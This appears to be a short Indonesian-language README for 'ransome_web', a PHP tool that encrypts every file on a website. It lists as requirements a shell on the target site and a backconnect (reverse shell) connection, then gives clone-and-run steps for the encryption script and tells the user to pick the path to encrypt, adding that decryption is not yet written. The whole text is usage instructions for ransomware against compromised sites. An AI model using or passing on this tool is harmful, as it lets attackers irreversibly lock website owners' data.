 # ransome_web

Menencrypt Semua File didalam Sebuah Website

Peraturan & Bahan:
- Usahakan Punya Shell
- Backconnect (karena mendapatkan proses yang agak lama, dan biar gak request time out)

Step : 
$ git clone https://github.com/indosec/ransome_web.git
$ cd ransome_web
$ php ens.php

dan Pilih Path yang akan di Enkrip

NB : untuk Decrypt masih di bikin, jadi jangan asal-asalan main ginian ok :"D
